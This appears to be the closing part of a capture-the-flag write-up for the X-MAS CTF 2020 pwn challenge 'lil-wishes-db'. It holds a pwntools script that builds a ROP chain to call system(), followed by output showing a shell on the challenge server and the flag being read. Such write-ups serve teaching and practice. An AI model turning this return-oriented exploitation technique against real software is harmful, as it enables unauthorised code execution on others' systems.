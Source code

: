 ```py
p.sendlineafter('Option:', b'1') 
p.sendlineafter('Index 1:', b'1') 
p.sendlineafter('Index 2:', str(ret_addr_offset+1).encode())



# extra ret gadget for stack alignment
p.sendlineafter('Option: \n', b'3') 
p.sendlineafter('Index:', b'4') 
p.sendlineafter('Value:', str(libc_adjust).encode())


p.sendlineafter('Option:', b'1') 
p.sendlineafter('Index 1:', b'4') 
p.sendlineafter('Index 2:', str(ret_addr_offset+2).encode()) 



# system addr
p.sendlineafter('Option: \n', b'3')
p.sendlineafter('Index:', b'1') 
p.sendlineafter('Value:', str(system_addr).encode())


p.sendlineafter('Option:', b'1')
p.sendlineafter('Index 1:', b'1') 
p.sendlineafter('Index 2:', str(ret_addr_offset+3).encode())

# pop a shell
p.sendlineafter('Option: ', b'4') # choose "4. Exit" to trigger the ROP chain
p.interactive()

```

output:

```
$ python3 solve.py
[*] '/root/host-share/xmas-ctf-2020/pwn/lil-wishes-db/lil_wishes_db/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Loaded 198 cached gadgets for './libc.so.6'
[+] Opening connection to challs.xmas.htsp.ro on port 2002: Done
libc base ::  0x7f7cf8830000
[*] Switching to interactive mode



Merry Christmas!
$ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
$ cat /home/ctf/flag.txt
X-MAS{oh_nooo_y0u_ru1ned_the_xmas}
```

Thanks for the challenge :D 